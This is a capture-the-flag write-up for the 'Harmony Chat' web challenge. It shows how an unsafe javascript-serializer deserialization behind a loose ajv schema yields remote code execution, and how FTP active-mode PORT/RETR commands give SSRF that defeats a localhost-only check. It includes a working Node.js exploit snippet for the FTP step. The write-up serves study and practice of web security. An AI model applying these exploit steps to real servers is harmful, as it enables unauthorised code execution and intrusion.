 # Harmony Chat
**Category**: Web

**Difficulty**: Hard

**The task**:

![img0](./images/0.png)

This one took me so long(+48 hours after the CTF ended) but it was def worth it.

To the CTF organizers: thanks for keeping the challenges live! 

# Analysis

## Overview

We were given a chat application:

![img1](./images/0-1.png)

In this chat, you can:
* Register with a ``/register`` command.
* Login with ``/login``
* Create your own channel
* Invite other users
  
All of those actions were implemented using a websocket server.

The app also provides an abillity to see the channel's logs via HTTP(if you click on the _"Logs[HTTP]"_ button):

![img2](./images/0-2.png)

Another option is provided, which allows you to view the channel logs using FTP via port 3321. The result from the FTP server has the same format as the one in the screenshot above( ``username`` + ``:`` + ``message`` followed by a newline)

## The ``csp-report`` endpoint.

Every time you click on  _Logs[HTTP]_ , the browser will issue the following request in the background:

![img3](./images/0-3.png)

The POST parameters are validated by a method called ``validateAndDecodeJSON``. This method is using an ``ajv`` npm module to validate our input and prevent (possibly) malformed input using ``REPORT_SCHEMA``. 

```js
try {
    const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
    console.error(generateTextReport(report["csp-report"]))
} catch (error) {
    console.warn(error)
    return
}
```

However, it was found that the validation schema does not validate all of the parameters properly, which allows us to control part of the JSON structure.

# Solution

Inside ``validateAndDecodeJSON`` there is a de-serialization vulnerabillity(in the last line):

```js
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```

If we combine this issue + the loose ``ajv`` validation schema, we can override important methods of objects.

![img4](./images/1.png)

>**Note**: More background about the ``javascript-serializer`` module and the way it's serializing objects can be found [here](https://www.npmjs.com/package/javascript-serializer#how-does-it-work)

Instead of adding our own property(like in the screenshot above), we will use a parameter called ``line-number``. 

To achieve RCE, we'll override the ``toString`` method of the ``line-number`` property. 

The ``toString`` method is a good candidate because later in the code, the app is doing a lot of string concatenations(which, will trigger ``toString``):

![img5](./images/2.png)

Result:

![img5](./images/3.png)

Nice! 

**Now, the next part of the challenge begins:**

The vulnerable de-serialization is executed only if the request has arrived from ``localhost``.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
// ...
if (!isLocal(req)) {
    return
}
```

To overcome this, we'll need an SSRF vulnerabillity. 

SSRF can be triggered using the FTP service of the _Harmony Server_(running on port 3321) which supports [_Active Mode_](https://slacksite.com/other/ftp.html))

![img6](./images/4.png)

# Time to pwn

This is splitted into two steps:
* Step 1 - Creating a channel with users & history that looks like an HTTP request
  * The history will be saved as a file in the FTP server
* Step 2 - Connect to the FTP server and make it act on active mode while we're requesting our malicious channel's history.


## Step 1 

Create multiple users and construct a chat history that look-alike an HTTP request:

![img7](./images/5-0.png)


![img8](./images/5.png)


## Step 2

Triggering the SSRF using the ``PORT`` and ``RETR`` commands (full exploit can be found at ``solve.js``)

```js
async function ftp_pwn(userId, channelId) {
    return new Promise( (resolve, reject) => {
        let client = new net.Socket();
        client.connect(HARMONY_FTP_PORT, HARMONY_SERVER, () => {
            console.log(`Connected to ${HARMONY_FTP_PORT}`);
        });

        client.on('data', function(data) {
            console.log('Received: ' + data);
            if(data.includes('ready')) {
                client.write(`user ${userId}`);
            }
            else if(data.includes('need password')) {
                client.write('pass '); // no password
            }
            else if(data.includes('logged in, proceed.')) {
                client.write('PORT 127,0,0,1,13,52')
            }
            else if(data.includes('200 OK')) {
                client.write(`RETR ${channelId}`)
                resolve('ftp -> pwned');
            }
        });

        client.on('close', function() {
            console.log('Connection closed');
        });
    });
}
```

then, pop a shell & cat the flag :D 

![img9](./images/get_flag_640px.gif)

![img10](./images/6.png)

